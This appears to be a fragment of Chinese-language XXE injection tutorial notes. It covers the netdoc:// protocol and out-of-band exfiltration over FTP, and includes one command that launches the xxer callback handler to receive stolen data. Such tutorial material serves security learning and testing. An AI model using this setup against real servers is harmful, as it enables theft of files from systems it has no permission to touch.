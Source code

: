 netdoc://

![image-20231101213612530](../../images/image-20231101213612530.png)



### ftp://--数据外带

工具：

[TheTwitchy/xxer: A blind XXE injection callback handler. Uses HTTP and FTP to extract information. Originally written in Ruby by ONsec-Lab. (github.com)](https://github.com/TheTwitchy/xxer)

```bash
python2 .\xxer.py -p 1234 -H 192.168.23.108
```

> -p是指定http_server的端口，ftp_server默认端口为2121

![image-20231101221119855](../../images/image-20231101221119855.png)
